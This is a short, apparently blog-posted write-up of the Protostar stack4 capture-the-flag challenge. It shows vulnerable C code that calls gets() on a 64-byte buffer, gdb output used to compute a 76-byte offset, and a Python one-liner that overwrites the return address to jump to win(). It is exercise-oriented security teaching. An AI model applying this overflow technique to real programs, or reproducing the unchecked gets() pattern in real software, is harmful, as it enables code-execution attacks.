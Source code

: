 ```yaml
---
layout: post
title: "Protostar stack04 writeup"
tags: [protostar, pwn]
comments: false
---
```


This challenge gives out a source code

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

Unlike the other protostar challenges before, we're not midifying any values but just calling this function.
We need to get the offset for buffer[64] and add 4 to that offset in order to skip the saved frame pointer.

to calculate the offset, first you get the starting of the address of $esp for the get function then subtract that from the base value

```
root@protostar:/opt/protostar/bin# gdb -q stack4
Reading symbols from /opt/protostar/bin/stack4...done.
(gdb) disas main
Dump of assembler code for function main:
0x08048408 <main+0>:    push   %ebp
0x08048409 <main+1>:    mov    %esp,%ebp
0x0804840b <main+3>:    and    $0xfffffff0,%esp
0x0804840e <main+6>:    sub    $0x50,%esp
0x08048411 <main+9>:    lea    0x10(%esp),%eax
0x08048415 <main+13>:   mov    %eax,(%esp)
0x08048418 <main+16>:   call   0x804830c <gets@plt>
0x0804841d <main+21>:   leave  
0x0804841e <main+22>:   ret    
End of assembler dump.
(gdb) b *main+21
Breakpoint 1 at 0x804841d: file stack4/stack4.c, line 16.
(gdb) r
Starting program: /opt/protostar/bin/stack4 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, main (argc=1, argv=0xbffffd54) at stack4/stack4.c:16
16      stack4/stack4.c: No such file or directory.
        in stack4/stack4.c
(gdb) x/10x $esp
0xbffffc50:     0xbffffc60      0xb7ec6165      0xbffffc68      0xb7eada75
0xbffffc60:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffc70:     0x41414141      0x41414141
(gdb) p $ebp
$1 = (void *) 0xbffffca8
(gdb) 
```

Here, you can see the star is 0xbffffc60 and the base is 0xbffffca8. 0xbffffca8-0xbffffc60+4 = 76

As the same from stack03, this cahllenge also contains a win() function where the address is

```
root@protostar:/opt/protostar/bin# objdump -t stack4 | grep win
080483f4 g     F .text  00000014              win
```

so the exploit will be

```
root@protostar:/opt/protostar/bin# (python -c 'print "A"*76+"\xf4\x83\x04\x08"') | ./stack4
code flow successfully changed
Segmentation fault
```